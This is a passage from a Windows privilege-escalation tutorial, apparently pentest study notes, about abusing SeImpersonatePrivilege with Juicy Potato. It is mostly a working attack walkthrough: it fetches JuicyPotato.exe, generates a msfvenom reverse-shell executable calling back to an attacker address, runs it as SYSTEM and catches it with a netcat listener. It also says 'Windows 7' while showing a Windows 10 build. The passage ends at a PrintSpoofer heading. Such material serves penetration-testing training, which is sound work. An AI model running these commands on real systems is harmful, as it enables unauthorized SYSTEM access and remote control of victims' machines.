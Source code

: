 ### **INTRODUCTION**

Service accounts are generally configured with these two privileges. They allow the account to impersonate the access tokens of other users (including the SYSTEM user).

??? info "IMPORTANT"

    Juicy Potato attacks does NOT work on Windows 10 versions equal to or greater than 1809; and does NOT work on Server 2019 at all, For all versions of Server 2016 and Server 2019 we can use PrintSpoofer.exe, as well as every version of Windows 10 from at least 1607 onwards

### **EXPLOITING PRIVILEGES WITH JUICY POTATO**

Rotten Potato was quite a limited exploit. Juicy Potato works in the same way as Rotten Potato, but the authors did extensive research and found many more ways to exploit. (These steps are for Windows 7)

1.  Verify if current user has SeImpersonatePrivilege privileges by running:  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/144.png)
    
2.  Use curl to download JuicyPotato.exe from the GitHub repository.  
    `curl -L -o JuicyPotato.exe https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe`  

    ![](../../../img/Windows-Environment/145.png)

    **NOTE:** this is a 64-bit executable. If you need a 32-bit version, you can find that [Here](https://github.com/ohpe/juicy-potato/releases/tag/v0.1).
    
3.  we need to determine the OS version running on Attack Machine By using the following command:  
    `systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"`  
    
    ![](../../../img/Windows-Environment/146.png)
    
4.  This is a Windows 10 Professional – Build 10586. Note that ‘build’ and ‘version’ are different. Build 10586 corresponds to version 1511. Since 1511 < 1809, this Machine should be vulnerable if it hasn't been patched.  
    
    ![](../../../img/Windows-Environment/147.png)
    
5.  To execute a task as SYSTEM, one approach is to create an executable. This can be achieved using tools such as msfvenom or alternatively, by Using nc.exe   
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=1234 -a x64 --platform Windows -f exe -o shell.exe`  
    
    ![](../../../img/Windows-Environment/148.png)
    
6.  Download both files onto the target using any one of the techniques found in File Transfer Section  
    
    ![](../../../img/Windows-Environment/149.png)
    
7.  Verify If the exploit Works by redirect the output to output.txt file:  
    `C:\Users\Public\Downloads\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c whoami > C:\Users\Public\Downloads\output.txt" -t *`  
    
    ![](../../../img/Windows-Environment/150.png)
    
8.  Start a netcat listener on port 1234 and execute shell.exe using JuicyPotato.exe:  
    `C:\Users\Public\Downloads\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c C:\Users\Public\Downloads\shell.exe" -t *`  
    
    ![](../../../img/Windows-Environment/151.png)
    
9.  If the process is created successfully, we have a SYSTEM shell on our listener.  
    `sudo rlwrap -cAr nc -lvnp 1234`  
    
    ![](../../../img/Windows-Environment/152.png)
    

### **IMPERSONATING THE LOCAL SYSTEM ACCOUNT WITH PRINTSPOOFER**